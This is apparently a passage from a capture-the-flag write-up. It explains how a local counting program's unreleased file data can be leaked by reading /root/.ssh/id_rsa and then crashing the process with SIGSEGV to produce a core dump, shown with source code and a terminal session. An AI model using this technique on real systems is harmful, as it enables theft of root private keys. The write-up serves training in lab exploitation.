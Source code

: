The program's source code can be found at `/opt/code.c`. Reading through the code, when given a file path, it calls the `filecount` function on the path. This function reads the file at `path` into memory and performs the counting. Interestingly, the program never releases this memory, even after it finishes the counting.

```c
void filecount(const char *path, char *summary)
{
    FILE *file;
    char ch;
    int characters, words, lines;

    file = fopen(path, "r");

    if (file == NULL)
    {
        printf("\nUnable to open file.\n");
        printf("Please check if file exists and you have read privilege.\n");
        exit(EXIT_FAILURE);
    }

    characters = words = lines = 0;
    while ((ch = fgetc(file)) != EOF)
    {
        characters++;
        if (ch == '\n' || ch == '\0')
            lines++;
        if (ch == ' ' || ch == '\t' || ch == '\n' || ch == '\0')
            words++;
    }

    if (characters > 0)
    {
        words++;
        lines++;
    }

    snprintf(summary, 256, "Total characters = %d\nTotal words      = %d\nTotal lines      = %d\n", characters, words, lines);
    printf("\n%s", summary);
}
```

This behavior can be exploited by reading in the contents of a sensitive file and then causing the program to crash, dumping memory to a crash report. The contents of the sensitive file will be in the crash report.

Achieve this by having `/opt/count` read `root`'s SSH private key. When prompted for whether to save the count output to a file, background the process and kill it by causing a segmentation fault.

```bash
dasith@secret:/opt$ /opt/count
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 /opt/count
dasith@secret:/opt$ ps
    PID TTY          TIME CMD
   1390 pts/0    00:00:00 bash
   2268 pts/0    00:00:00 count
   2269 pts/0    00:00:00 ps
dasith@secret:/opt$ kill -SIGSEGV 2268
dasith@secret:/opt$ fg
```